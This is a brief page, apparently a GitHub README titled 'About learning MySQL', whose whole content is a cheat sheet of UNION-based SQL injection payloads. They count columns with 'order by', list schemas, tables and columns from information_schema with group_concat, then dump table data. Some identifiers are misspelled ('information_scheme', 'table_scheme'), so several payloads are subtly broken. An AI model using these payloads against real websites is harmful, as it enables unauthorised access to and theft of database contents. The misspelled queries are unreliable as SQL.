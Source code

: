 <div style="background-color:balck;color:green">
<h1>About learning MySQL</h1>
</div>


```

id=? order by n
union select null,null,~,n

#find_schema:
union select 1,2,~,group_concat(schema_name),~,n from information_schema.schemata
#find_tables:
union select 1,2,~,group_concat(table_name),~,n from information_schema.tables where table_scheme="~~"
#find_columns:
union select 1,2,~,group_concat(column_name),~,n from information_scheme.columns where table_scheme="~~" and table_name="~~"

#get data
union select 1,2,~,group_concat(column),~,n from schema.table

```


